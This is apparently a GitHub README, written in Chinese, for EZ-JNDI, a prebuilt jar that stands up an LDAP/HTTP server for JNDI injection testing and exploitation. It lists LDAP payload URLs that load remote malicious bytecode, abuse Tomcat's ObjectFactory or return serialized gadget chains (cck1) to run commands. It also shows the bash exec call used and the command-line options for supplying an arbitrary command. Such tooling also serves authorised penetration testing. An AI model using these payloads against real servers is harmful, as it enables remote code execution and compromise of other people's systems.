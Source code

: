 # EZ-JNDI
一键启动JNDI测试/利用环境，目录中的 `ezjndi1.0.jar` 是已经编译好的 jar 包

LDAP Payload：
```text
ldap://{IP}:{Port}/Foo --> 利用远程CodeBase加载恶意字节码执行命令
ldap://{IP}:{Port}/Tom --> 使用Tomcat本地ObjectFactory执行命令
ldap://{IP}:{Port}/RS/{gadget_name} --> LDAP服务直接返回序列化数据，并使用指定Gadget执行命令

可用Gadget：cck1 ｜ todo...
```

执行命令使用的方式如下（目前支持Linux环境），无需对命令进行base64编码：
```java
Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "{command}"});
new ProcessBuilder(new String[]{"/bin/bash", "-c", "{command}").start();
```

LDAP默认端口1099，HTTP默认端口8080，可以使用命令行参数配置端口：
```text
java -jar ezjndi1.0.jar --help
java -jar ezjndi1.0.jar -lp={port1} -hp={port2} -c="{command}"
```

使用截图：

![img.png](img/img.png)

![img.png](img/img2.png)

![img.png](img/img3.png)

TODO:
- 增加gadget
- 支持动态执行命令，如`ldap://{IP}:{Port}/Foo/{command}`
- Windows环境下利用cmd执行命令（`cmd /c {command}`）
---
️备注：由于项目依赖使用了jdk自带的`rt.jar`，其默认不在JVM的 classpath 中，所以如果想修改源代码编译自己的版本，在编译前请修改`pom.xml`，将`<bootclasspath>`标签的值改为自己的`JAVA_HOMOE`：
```xml
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-compiler-plugin</artifactId>
    <version>3.8.1</version>
    <configuration>
        <compilerArguments>
            <verbose />
            <bootclasspath>${java.home}/lib/rt.jar${path.separator}${java.home}/lib/jce.jar${path.separator}${java.home}/lib/jsse.jar</bootclasspath>
        </compilerArguments>
    </configuration>
</plugin>
```
另外，编译的时候请跳过测单元测试：
```text
maven clean package -Dmaven.skip.test=true
```